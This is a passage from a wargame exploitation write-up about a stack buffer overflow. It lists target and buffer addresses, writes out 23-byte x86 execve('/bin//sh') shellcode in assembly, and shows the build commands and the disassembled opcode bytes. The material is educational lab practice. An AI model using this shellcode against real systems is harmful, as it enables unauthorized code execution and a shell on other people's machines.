 Our buffer will be stored at `0xbffff4ef`. Well, we have everything we need to exploit this vulnerability:
- The return address `0xbffff5ec`
- Our buffer address `0xbffff4ef`

Let's switch to the shellcode.

## Shellcode

For the shellcode, we will reuse the following one as it is quite short (23 bytes):

```nasm
global _start
_start:

xor    eax, eax ; EAX = 0
push   eax ; push our null byte on the stack to end the string
; push "/bin//sh" in reverse order
push   0x68732f2f ; "hs//"
push   0x6e69622f ; "nib/"

; execve("/bin//sh/", 0, 0);
mov    ebx, esp ; EBX = ptr to "/bin//sh"
mov    ecx, eax ; ECX = 0
mov    edx, eax ; EDX = 0
mov    al, 0xb ; sys_execve()
int    0x80
```

**Note** The *Warzone* VM doesn't have **NASM** installed, so I did the development on another Linux VM.
{: .notice--info}

```shell
$ nano shellcode.asm
$ nasm -f elf32 shellcode.asm
```

Then, we can check the code and generate the shellcode.

```shell
$ objdump -M intel -d shellcode.o

shellcode.o:     file format elf32-i386

Disassembly of section .text:

00000000 <_start>:
   0:   31 c0                   xor    eax,eax
   2:   50                      push   eax
   3:   68 2f 2f 73 68          push   0x68732f2f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx,esp
   f:   89 c1                   mov    ecx,eax
  11:   89 c2                   mov    edx,eax
  13:   b0 0b                   mov    al,0xb
  15:   cd 80                   int    0x80
```
